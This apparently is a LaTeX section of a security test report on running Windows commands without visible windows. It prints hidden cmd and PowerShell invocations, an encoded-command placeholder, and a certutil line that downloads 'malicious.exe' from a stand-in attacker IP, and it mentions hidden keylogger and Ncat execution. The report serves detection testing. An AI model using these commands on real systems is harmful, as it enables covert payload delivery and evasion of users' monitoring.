 \documentclass[11pt]{article}
\begin{document}
	\subsubsection{Technique 3: Non-Visual Command Execution and Process Hiding}
	\begin{itemize}
		\item \textbf{Objective of the specific test:} To execute commands (e.g., file manipulation, reconnaissance) using PowerShell and `cmd.exe` in a way that avoids visible windows and to test detection of these hidden operations.
		\item \textbf{Tools and Scripts Used:}
		\begin{itemize}
			\item `cmd.exe` (via `start /min cmd /c` in `cmd_commands.txt` [cite: 252, 253]).
			\item `powershell.exe` (e.g., `powershell -windowstyle hidden -command "Get-Process"`).
			\item Various LOLBAS (e.g., `certutil.exe` for downloading files, `reg.exe` for registry manipulation).
		\end{itemize}
		\item \textbf{Step-by-Step Execution Procedure (Examples):}
		\begin{enumerate}
			\item \textbf{Hidden CMD execution:} The `cmd_commands.txt` already uses `start /min cmd /c` for various tasks (keylogger execution, Ncat)[cite: 252, 253]. Additional commands for file creation/deletion were tested using this method.
			\begin{verbatim}
				start /min cmd /c "echo test > C:\Users\Public\hidden_file.txt"
			\end{verbatim}
			\item \textbf{Hidden PowerShell execution:}
			\begin{verbatim}
				powershell.exe -WindowStyle Hidden -Command "New-Item -Path C:\Users\Public\ps_hidden_file.txt -ItemType File"
				powershell.exe -WindowStyle Hidden -EncodedCommand <Base64_Encoded_Command>
			\end{verbatim}
			\item \textbf{LOLBAS for file download (Certutil):}
			\begin{verbatim}
				certutil.exe -urlcache -split -f http://<attacker_ip>/malicious.exe C:\Users\Public\downloaded.exe
			\end{verbatim}
			\item Process activity was monitored using Process Monitor and Task Manager (looking for brief appearances or child processes of legitimate services).

\end{enumerate}
\end{itemize}
\end{document}
